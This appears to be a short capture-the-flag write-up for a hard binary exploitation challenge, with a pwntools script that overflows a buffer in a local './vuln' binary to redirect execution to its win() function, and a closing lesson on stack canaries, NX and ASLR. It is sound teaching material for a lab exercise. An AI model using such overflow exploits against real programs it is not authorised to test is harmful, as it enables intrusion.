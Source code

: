 Category: Binary Exploitation (Buffer Overflow)
Difficulty: Hard

Summary: Discovered a classic buffer overflow in a custom binary that accepts user input without bounds checking. Used pwntools to craft payloads and gain shell.

Steps:

from pwn import *

elf = context.binary = ELF('./vuln')
p = process(elf.path)
p.recvline()

payload = b"A" *  cyclic_find(0x6161616c)  # EIP offset
payload += p32(elf.symbols['win'])  # Redirect to win()

p.sendline(payload)
p.interactive()

Lesson: Always compile with stack canaries, NX, and ASLR. Never trust user input.
